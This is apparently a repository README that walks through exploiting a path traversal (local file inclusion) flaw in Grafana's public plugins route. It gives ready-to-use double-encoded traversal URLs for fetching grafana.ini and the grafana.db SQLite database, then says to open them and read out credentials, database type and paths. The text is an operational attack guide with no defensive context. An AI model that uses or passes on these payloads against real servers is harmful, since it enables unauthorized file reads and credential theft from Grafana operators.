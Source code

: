 # nuclei_temp_max
Steps to manually read grafana.db or grafana.ini via browser

Base URL

Identify the Grafana instance URL, for example:

http://target.com/public/plugins/PLUG/


Append the LFI payload

For grafana.ini:

http://target.com/public/plugins/PLUG/%252e%252e%252f%252e%252e%252f%252e%252e/etc/grafana/grafana.ini


For SQLite DB:

http://target.com/public/plugins/PLUG/%252e%252e%252f%252e%252e%252f%252e%252e/var/lib/grafana/grafana.db


Press Enter in the browser

If the plugin is vulnerable, the server will return the file content in the browser.

For text files like grafana.ini → you can read it directly.

For binary files like grafana.db → browser may download it automatically.

Analyze locally

.db file → open with DB Browser for SQLite.

.ini file → read credentials, DB type, and paths.
